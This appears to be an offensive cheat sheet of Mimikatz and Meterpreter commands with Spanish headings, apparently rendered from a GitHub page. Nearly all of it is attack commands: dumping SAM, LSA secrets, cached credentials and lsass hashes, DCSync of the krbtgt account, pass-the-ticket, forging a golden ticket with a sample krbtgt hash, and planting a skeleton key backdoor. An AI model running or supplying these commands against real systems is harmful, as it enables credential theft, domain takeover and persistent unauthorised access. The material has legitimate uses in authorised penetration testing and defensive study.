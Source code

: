 # Comandos

## **Comunes**

```c
token::elevate
token::revert
vault::cred
vault::list
lsadump::sam
lsadump::secrets
lsadump::cache
lsadump::dcsync /<USERNAME>:<DOMAIN>\krbtgt /domain:<DOMAIN>
```

### **Dump Hashes**

```c
.\mimikatz.exe
sekurlsa::minidump /users/admin/Desktop/lsass.DMP
sekurlsa::LogonPasswords
meterpreter > getprivs
meterpreter > creds_all
meterpreter > golden_ticket_create
```

### **Pass the Ticket**

```c
.\mimikatz.exe
sekurlsa::tickets /export
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<RHOST>.LOCAL.kirbi
klist
dir \\<RHOST>\admin$
```

### **Forging Golden Ticket**

```
.\mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500
misc::cmd
klist
dir \\<RHOST>\admin$
```

### **Skeleton Key**

```
privilege::debug
misc::skeleton
net use C:\\<RHOST>\admin$ /user:Administrator mimikatz
dir \\<RHOST>\c$ /user:<USERNAME> mimikatz
```
